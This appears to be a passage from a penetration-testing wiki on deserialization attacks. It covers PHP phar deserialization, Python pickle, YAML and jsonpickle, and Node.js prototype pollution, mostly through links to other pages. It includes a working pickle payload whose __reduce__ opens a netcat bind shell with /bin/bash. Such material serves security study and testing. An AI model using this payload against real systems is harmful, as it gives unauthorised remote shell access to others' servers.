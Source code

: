 ### phar:// metadata deserialization

If you have found a LFI that is just reading the file and not executing the php code inside of it, for example using functions like _**file\_get\_contents(), fopen(), file() or file\_exists(), md5\_file(), filemtime() or filesize()**_**.** You can try to abuse a **deserialization** occurring when **reading** a **file** using the **phar** protocol.\
For more information read the following post:

{% content-ref url="../file-inclusion/phar-deserialization.md" %}
[phar-deserialization.md](../file-inclusion/phar-deserialization.md)
{% endcontent-ref %}

## Python

### **Pickle**

When the object gets unpickle, the function _\_\_reduce\_\__ will be executed.\
When exploited, server could return an error.

```python
import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("netcat -c '/bin/bash -i' -l -p 1234 ",))
print(base64.b64encode(pickle.dumps(P())))
```

For more information about escaping from **pickle jails** check:

{% content-ref url="../../misc/basic-python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../misc/basic-python/bypass-python-sandboxes/)
{% endcontent-ref %}

### Yaml **&** jsonpickle

The following page present the technique to **abuse an unsafe deserialization in yamls** python libraries and finishes with a tool that can be used to generate RCE deserialization payload for **Pickle, PyYAML, jsonpickle and ruamel.yaml**:

{% content-ref url="python-yaml-deserialization.md" %}
[python-yaml-deserialization.md](python-yaml-deserialization.md)
{% endcontent-ref %}

## NodeJS

### `__proto__` and `prototype` pollution

If you want to learn about this technique **take a look to the following tutorial**:

{% content-ref url="nodejs-proto-prototype-pollution/" %}
[nodejs-proto-prototype-pollution](nodejs-proto-prototype-pollution/)
{% endcontent-ref %}

### [node-serialize](https://www.npmjs.com/package/node-serialize)

